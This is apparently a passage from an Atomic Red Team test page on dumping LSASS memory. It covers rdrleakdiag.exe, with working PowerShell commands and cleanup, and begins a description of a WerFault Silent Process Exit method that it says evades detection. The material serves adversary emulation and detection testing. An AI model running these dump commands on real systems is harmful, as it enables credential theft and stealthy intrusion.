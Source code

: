 The memory of lsass.exe is often dumped for offline credential theft attacks.
This can be achieved with lolbin rdrleakdiag.exe.

Upon successful execution, you should see the following files created, $env:TEMP\minidump*<PID>.dmp and $env:TEMP\results*<PID>.hlk.

**Supported Platforms:** Windows

**auto_generated_guid:** 47a539d1-61b9-4364-bf49-a68bc2a95ef0

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
if (Test-Path -Path "$env:SystemRoot\System32\rdrleakdiag.exe") {
      $binary_path = "$env:SystemRoot\System32\rdrleakdiag.exe"
  } elseif (Test-Path -Path "$env:SystemRoot\SysWOW64\rdrleakdiag.exe") {
      $binary_path = "$env:SystemRoot\SysWOW64\rdrleakdiag.exe"
  } else {
      $binary_path = "File not found"
      exit 1
  }
$lsass_pid = get-process lsass |select -expand id
if (-not (Test-Path -Path"$env:TEMP\t1003.001-13-rdrleakdiag")) {New-Item -ItemType Directory -Path $env:TEMP\t1003.001-13-rdrleakdiag -Force}
write-host $binary_path /p $lsass_pid /o $env:TEMP\t1003.001-13-rdrleakdiag /fullmemdmp /wait 1
& $binary_path /p $lsass_pid /o $env:TEMP\t1003.001-13-rdrleakdiag /fullmemdmp /wait 1
Write-Host "Minidump file, minidump_$lsass_pid.dmp can be found inside $env:TEMP\t1003.001-13-rdrleakdiag directory."
```

#### Cleanup Commands:

```powershell
Remove-Item $env:TEMP\t1003.001-13-rdrleakdiag -Recurse -Force -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #14 - Dump LSASS.exe Memory through Silent Process Exit

WerFault.exe (Windows Error Reporting process that handles process crashes) can be abused to create a
memory dump of lsass.exe, in a directory of your choice. This method relies on a mechanism
introduced in Windows 7 called Silent Process Exit, which provides the ability to trigger
specific actions for a monitored process in one of two scenarios; either the process terminates
itself by calling ExitProcess(), or another process terminates it via the TerminateProcess() API.
The major advantage of this technique is that it does not cause lsass.exe to crash, and since
WerFault.exe is used to create file dumps all the time (not just lsass.exe), this method provides
the added advantage of going undetected. WerFault.exe is a process known for dumping every crashing process,
from an attacker standpoint this is appealing as their illicit credential extraction will
appear benign because from a defender’s viewpoint it’s within the realm of normal activity.

